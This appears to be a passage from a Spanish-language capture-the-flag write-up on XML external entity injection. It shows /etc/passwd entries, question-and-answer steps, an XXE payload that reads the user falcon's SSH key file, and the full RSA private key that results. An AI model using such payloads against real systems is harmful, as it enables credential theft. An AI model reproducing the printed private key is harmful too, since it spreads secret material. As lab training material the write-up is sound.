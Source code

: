 ```
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

`No answer needed`

3. ¿Cuál es el nombre del usuario en /etc/passwd?

```
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

`falcon`

4. ¿Dónde se encuentra la clave SSH de falcon?

`/home/falcon/.ssh/id_rsa`

5. ¿Cuáles son los primeros 18 caracteres de la clave privada de Falcon?

```
<!DOCTYPE any [<!ENTITY passwd SYSTEM 'file///home/falcon/.ssh/id_rsa'>]>

<any>
  <pass>&passwd;</pass>
</any>
```

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC
lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN
MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5
bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh
NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y
OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea
TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X
Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya
6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb
j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA
MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn
qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg
faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R
sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe
f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr
wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g
83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz
N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw
HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm
9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ
9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA=
-----END RSA PRIVATE KEY-----
```
